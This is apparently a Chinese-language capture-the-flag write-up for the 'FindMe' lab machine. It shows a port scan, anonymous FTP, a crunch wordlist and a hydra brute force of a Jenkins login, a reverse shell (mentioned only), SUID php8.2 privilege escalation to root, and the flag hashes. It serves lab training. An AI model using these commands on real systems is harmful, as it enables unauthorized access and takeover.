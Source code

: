 # FindMe

2025.03.05 https://thehackerslabs.com/find-me/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

ftp 可匿名，读取 ayuda.txt , 提示用户名 geralt ，jenkins 的密码包含 5 个字符，以 p 开头，以 a 结尾。

访问 80web 上无信息，8080 web 显示 jenkins，根据上面提示生成密码，爆破：

```
crunch 5 5 -f /usr/share/crunch/charset.lst mixalpha-numeric -t p@@@a -o pass.txt

crunch 5 5 -t p@@@a -o pass.txt
hydra -l geralt -P pass 192.168.5.40 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:F=Invalid username or password" -f
hydra -l geralt -P pass 192.168.5.40 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:c=/login:Invalid username or password" -f
[8080][http-post-form] host: 192.168.5.40   login: geralt   password: panda
```

爆出密码 panda，登陆 jenkins。创建 item，执行反弹 shell 到 kali 上：

```
jenkins@find-me:~/workspace/shell$ id
id
uid=104(jenkins) gid=110(jenkins) grupos=110(jenkins)
```

发现 suid /usr/bin/php8.2

```
/usr/bin/php8.2 -r "posix_setuid(0); system('/bin/bash');"
```

直接拿到 root 权限，获得 flag：

```
root@find-me:/home/geralt# cat user.txt
be336806b564e9fd7812aef123f80b7b
root@find-me:/home/geralt# cat /root/root.txt
71b5a461e7df11a40f29c707a8b1b05f
```
